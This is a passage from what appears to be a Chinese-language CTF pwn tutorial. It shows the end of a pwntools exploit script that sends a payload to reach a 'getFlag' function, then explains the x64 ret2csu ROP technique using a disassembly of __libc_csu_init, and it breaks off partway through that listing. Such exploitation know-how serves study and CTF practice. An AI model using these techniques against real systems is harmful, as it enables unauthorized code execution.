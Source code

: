```python
print(hex(e.symbols['getFlag']))
p.sendline(pay)
p.interactive()
```

### Linux x64 ret2csu

由上面的题可以看见，我们不是每次都能同时控制 rdi, rsi, rdx, rcx, r8, r9这些传递参数的寄存器。因此我们可以,一些默认编译的函数中的 gadgets,来间接达到控制 rdi, rsi, rdx, rcx, r8, r9寄存器.

在一般的x64位程序，经常会编译以下函数：

```
_init
_start
call_gmon_start
deregister_tm_clones
register_tm_clones
__do_global_dtors_aux
frame_dummy
__libc_csu_init
__libc_csu_fini
_fini
```

我们可以在这些函数里，去找有没有我们可以利用的gadgets。

以`__libc_csu_init`函数为例，`__libc_csu_init`的汇编代码如下

```cobol
.text:00000000004005E0
.text:00000000004005E0 ; void _libc_csu_init(void)
.text:00000000004005E0                 public __libc_csu_init
.text:00000000004005E0 __libc_csu_init proc near               ; DATA XREF: _start+16↑o
.text:00000000004005E0 ; __unwind {
.text:00000000004005E0                 push    r15
.text:00000000004005E2                 push    r14
.text:00000000004005E4                 mov     r15, rdx
.text:00000000004005E7                 push    r13
.text:00000000004005E9                 push    r12
.text:00000000004005EB                 lea     r12, __frame_dummy_init_array_entry
.text:00000000004005F2                 push    rbp
.text:00000000004005F3                 lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:00000000004005FA                 push    rbx
.text:00000000004005FB                 mov     r13d, edi
.text:00000000004005FE                 mov     r14, rsi
.text:0000000000400601                 sub     rbp, r12
.text:0000000000400604                 sub     rsp, 8
.text:0000000000400608                 sar     rbp, 3
.text:000000000040060C                 call    _init_proc
.text:0000000000400611                 test    rbp, rbp
.text:0000000000400614                 jz      short loc_400636
.text:0000000000400616                 xor     ebx, ebx
.text:0000000000400618                 nop     dword ptr [rax+rax+00000000h]
.text:0000000000400620
.text:0000000000400620 loc_400620:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000400620                 mov     rdx, r15
.text:0000000000400623                 mov     rsi, r14
.text:0000000000400626                 mov     edi, r13d
.text:0000000000400629                 call    qword ptr [r12+rbx*8]
.text:000000000040062D                 add     rbx, 1
.text:0000000000400631                 cmp     rbp, rbx
.text:0000000000400634                 jnz     short loc_400620
.text:0000000000400636
.text:0000000000400636 loc_400636:                             ; CODE XREF: __libc_csu_init+34↑j
.text:0000000000400636                 add     rsp, 8
```